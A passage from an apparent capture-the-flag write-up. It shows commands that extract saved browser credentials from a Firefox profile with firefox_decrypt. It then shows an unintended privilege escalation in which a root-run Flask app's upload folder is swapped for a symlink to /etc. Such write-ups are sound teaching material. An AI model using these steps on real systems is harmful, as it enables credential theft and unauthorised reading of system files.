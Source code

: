 Now, using the [`firefox_decrypt`](https://github.com/unode/firefox_decrypt) program to extract the credentials, we obtain the password for the `charles` user and complete the room.

```console
$ python3 firefox_decrypt/firefox_decrypt.py firefox/8k3bf3zp.charles
2024-09-26 17:29:13,245 - WARNING - profile.ini not found in firefox/8k3bf3zp.charles
2024-09-26 17:29:13,246 - WARNING - Continuing and assuming 'firefox/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

## Unintended root

After obtaining a shell as the `beth` user, we notice that the application on port `8080` runs as the `root` user.

```console
beth@london:~$ ps -aux | grep gunicorn
root       437  0.0  1.1  75640 22212 ?        Ss   08:30   0:01 /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
...
```
{: .wrap }

Checking the source code for the application in `/home/beth/app.py`, we see that the application uses `app.config['UPLOAD_FOLDER']` while performing many operations.

```python
@app.route('/gallery')
def gallery():
    filenames = os.listdir(app.config['UPLOAD_FOLDER'])
    return render_template('index.html', filenames=filenames)
...
@app.route('/uploads/<filename>')
def download_file(filename):
    return send_from_directory(app.config['UPLOAD_FOLDER'], filename)
```

Currently, `app.config['UPLOAD_FOLDER']` is set to `/home/beth/uploads`.

```python
UPLOAD_FOLDER = 'uploads'
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
```

The issue is that the `beth` user owns the `uploads` directory, allowing us to change it from a directory to a `symlink` pointing to any directory we want.

For example, we can change it to a `symlink` pointing to the `/etc` directory.

```console
beth@london:~$ mv uploads/ uploads.bak
beth@london:~$ ln -s /etc uploads
beth@london:~$ ls -la uploads
lrwxrwxrwx 1 beth beth 4 Sep 26 10:37 uploads -> /etc
```
